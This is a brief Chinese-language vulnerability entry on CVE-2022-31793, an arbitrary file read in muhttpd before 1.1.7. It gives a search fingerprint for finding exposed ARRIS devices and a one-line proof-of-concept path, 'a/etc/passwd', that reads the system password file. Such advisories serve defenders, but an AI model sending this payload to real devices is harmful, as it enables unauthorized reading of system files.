


muhttpd 任意文件读取漏洞 CVE-2022-31793¶
漏洞描述¶
muhttpd（mu-HTTP-deamon）是一个简单但完整的web服务器，用可移植的ANSI C编写。它支持静态页面、CGI脚本、基于MIME类型的处理程序和HTTPS。它在接受任何连接之前放弃特权，并且可以记录接收到的请求。它已经在GNU/Linux、NetBSD、FreeBSD、Mac OS X和Cygwin上进行了测试。它在32位和64位、小端和大端系统上成功运行。
muhttpd 1.1.7之前版本存在安全漏洞。攻击者利用该漏洞读取系统任意文件。
漏洞影响¶
muhttpd 1.1.7
网络测绘¶
"2017 ARRIS Enterprises,"
漏洞复现¶
登录页面

验证POC
a/etc/passwd
